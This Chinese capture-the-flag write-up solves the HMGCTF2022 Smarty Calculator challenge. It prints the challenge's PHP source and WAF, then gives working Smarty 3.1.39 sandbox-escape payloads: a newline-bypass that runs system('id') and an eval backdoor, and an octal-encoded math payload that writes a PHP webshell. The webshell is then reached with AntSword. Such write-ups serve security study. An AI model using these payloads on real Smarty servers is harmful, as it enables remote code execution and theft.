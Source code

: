 ```yaml
---
title: '[HMGCTF2022]Smarty Calculator'
date: 2024-11-22 19:08:01
tags: ssti
categories: 刷题笔记
---
```


### [HMGCTF2022]Smarty Calculator

打开页面，我们看到一个提交框

![image-20241122200044835](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411222000955.png)

长这样，一看就像个ssti注入

我们输入

```
{{7*7}}
```

页面弹出个没有登录，我吧网页翻遍了也没看见哪里要登录

于是扫了一下文件，发现有个www.zip

![](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411222002141.png)

```php
<?php
error_reporting(0);
include_once('./Smarty/Smarty.class.php');
$smarty = new Smarty();
$my_security_policy = new Smarty_Security($smarty);
$my_security_policy->php_functions = null;
$my_security_policy->php_handling = Smarty::PHP_REMOVE;
$my_security_policy->php_modifiers = null;
$my_security_policy->static_classes = null;
$my_security_policy->allow_super_globals = false;
$my_security_policy->allow_constants = false;
$my_security_policy->allow_php_tag = false;
$my_security_policy->streams = null;
$my_security_policy->php_modifiers = null;
$smarty->enableSecurity($my_security_policy);

function waf($data){
  $pattern = "php|\<|flag|\?";
  $vpattern = explode("|", $pattern);
  foreach ($vpattern as $value) {
        if (preg_match("/$value/", $data)) {
         echo("<div style='width:100%;text-align:center'><h5>Calculator don  not like U<h5><br>");
          die();
        }
    }
    return $data;
}

if(isset($_POST['data'])){
  if(isset($_COOKIE['login'])) {
      $data = waf($_POST['data']);
      echo "<div style='width:100%;text-align:center'><h5>Only smarty people can use calculators:<h5><br>";
      $smarty->display("string:" . $data);
  }else{
      echo "<script>alert(\"你还没有登录\")</script>";
  }
}
```

通过代码审计，我们发现登录需要在cookie里传个login，并且对post方法传的data进行了waf过滤，过滤了php < flag ?

同时，我们在Smarty.class.php里找到了smarty的版本 3.1.39

![image-20241122200837741](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411222008794.png)

### 思路一

https://srcincite.io/blog/2021/02/18/smarty-template-engine-multiple-sandbox-escape-vulnerabilities.html

通过查询发现smarty的3.1.39有一个漏洞

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815180335796.png)

从官方下载对应版本：https://github.com/smarty-php/smarty/releases?q=3.1.39&expanded=true

对比发现`smarty_internal_compile_function.php`有改动（此处对比工具为`Beyond Compare`）

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815103521724.png)

关键的差异只有一处正则（左侧为题目源码，右侧为官方源码）

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815103852608.png)

```
preg_match('/[a-zA-Z0-9_\x80-\xff](.*)+$/', $_name)
```

题目正则逻辑分析：

1. `[a-zA-Z0-9_\x80-\xff]`匹配字母、数字、下划线或0x80-0xff范围内的任意字节，作为开头字符。
2. `(.*)+`匹配0次或多次(*)任意数量(+)除换行符\n之外的任意单字符(.)。
3. $匹配字符串的结束。

其中正则里`\x80-\xff`表示匹配utf-8编码下所有的汉字

所以可以换行绕过，`%0A`既不在前面的`[]`匹配里面，又不被后面的`.`匹配

所以只需要在原来poc基础上，加上`%0A`绕过即可（实际测试发现需要两个字符，且只要第一个字符是`%0A`皆可，此处用`%0A%0A`）

```none
data={function+name='rce(){};system("id");function%0A%0A'}{/function}
```

HackBar传参如下

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815182749317.png)

执行phpinfo()

```
data={function+name='rce(){};@eval($_POST[1]);function%0A%0A'}{/function}&1=phpinfo();
```

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815183401988.png)

读flag

```
data={function+name='rce(){};@eval($_POST[1]);function%0A%0A'}{/function}&1=var_dump(file_get_contents('/flag'));
```

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815184109598.png)

### 思路二

function.math.php文件里有eval()函数可以命令执行，回溯$equation变量有这个正则匹配

![img](https://img-1310220602.cos.ap-shanghai.myqcloud.com/image-20230815140049432.png)

```
preg_match_all('!(?:0x[a-fA-F0-9]+)|([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)!', $equation, $match);

```

正则逻辑分析如下：

1. `preg_match_all()`函数使用正则表达式匹配`$equation`字符串；
2. 模式使用`! !`作为定界符；
3. 第一部分 `(?:0x[a-fA-F0-9]+)` 匹配十六进制数，`?:`表示不捕获；
4. 第二部分`([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)`捕获变量名模式（以字母/下划线/0x7f-0xff范围内的字符开头，后跟0个或多个字母/数字/指定字符的模式）。
5. `|`表示或，匹配两种模式之一。
6. 结果存储在$match数组中。
7. 第一部分不捕获，第二部分捕获的变量名存入 $match[1]。
8. 这样可以检索出字符串中的变量名，进行后续处理。

根据上述逻辑，此处可通过八进制绕过正则

脚本如下

```
s = input("请输入字符串:")

res = ""
for c in s:
    if c == "(" or c == ")" or c == ",":
        res += c
    elif c == "\"":
        res += "\\" + c
    else:
        o = oct(ord(c))
        res += "\\\\" + o[2:]
        
print(res)
```

如下命令写入一句话木马

```
("file_put_contents")("wa0er.php","<?php eval($_POST[wa0er]);?>")
```

我们将其处理成八进制后，完整payload如下

```
data={$poc="poc"}{math equation="(\"\\146\\151\\154\\145\\137\\160\\165\\164\\137\\143\\157\\156\\164\\145\\156\\164\\163\")(\"\\167\\141\\60\\145\\162\\56\\160\\150\\160\",\"\\74\\77\\160\\150\\160\\40\\145\\166\\141\\154(\\44\\137\\120\\117\\123\\124\\133\\167\\141\\60\\145\\162\\135)\\73\\77\\76\")"}

```

上传后我们访问wa0er.php

用蚁剑进行连接，得到flag

![image-20241122205104335](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411222051486.png)
